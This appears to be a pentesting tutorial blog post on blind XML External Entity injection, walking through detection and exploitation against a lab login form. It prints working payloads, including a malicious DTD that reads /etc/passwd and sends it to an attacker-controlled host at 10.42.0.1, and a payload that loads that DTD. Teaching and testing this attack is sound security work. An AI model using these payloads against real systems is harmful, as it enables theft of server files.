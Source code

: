 ```yaml
---
title: Blind XML External Entity
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, XML External Entity]
tags: []  
---
```


# Blind XML External Entity

***Blind XXE vulnerabilities*** arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible.

# Detecting Blind XML External Entity

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe1.png)

This is a basic login form with username and password, Let's attempt to supply username and password and intercept the request in our burpsuite.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe2.png)

As you can see, we received `invalid username and password` because our credentials are incorrect.

## XML Parser

Let's try to find blind xxe vulnerability here, we are going to supply incorrect xml to our target. To do that, we will change the value of `Content-Type` to `text/xml` which will look like this `Content-Type: text\xml`. This content-type will indicate to the server that we are supplying `xml` data.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe3.png)

We received `Invalid XML` from the server, this is because we supplied an incorrect xml data `username=exploit&password=payload` to the server which the xml parser can't able to process it. This error message proved that the backend is using `xml parser` to process user's data.

Let's attempt to fix the error by supplying correct xml data to the server.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe4.png)

After supplying correct xml data, we were able to fix the error, proving the backend is using xml parser to process users's data.

## XML Entity.

To determine whether or not `XML Entity` is enabled, We will supply the following payload, which if successfull will send a request to our web server.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % ping SYSTEM "http://[your_host]"> %ping;]>
	<test>
		redteam
	</test>
	
```
![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5.png)

As you can see we were able to receive a response from our target, implying that `XML Entity` is enabled.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5kali.png)

# Exploitation

## Data Exfiltration

Given that `xml entity` is enabled, we can take advantage of it to exfiltrate data from our target server. We will make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request. To do that, we will host our malicous DTD file at port 9090 and use port 90 to receive the exfiltrated data.

here is the content of our malicous DTD that will be used to exfiltrate content of `/etc/passwd` file.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.42.0.1:90/?x=%file;'>">
%eval;
%exfiltrate;
```

We will supply the following payload to our target.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % data SYSTEM "http://10.42.0.1:9090/payload.dtd"> %data;]>
	<test>
		redteam
	</test>
```

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe6.png)

The below image shows the content of `/etc/passwd` has been exfiltrated from the target.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe7kali2.png)

# Mitigations

- Disable DTDs (External Entities) completely.

# References

- [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
- [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
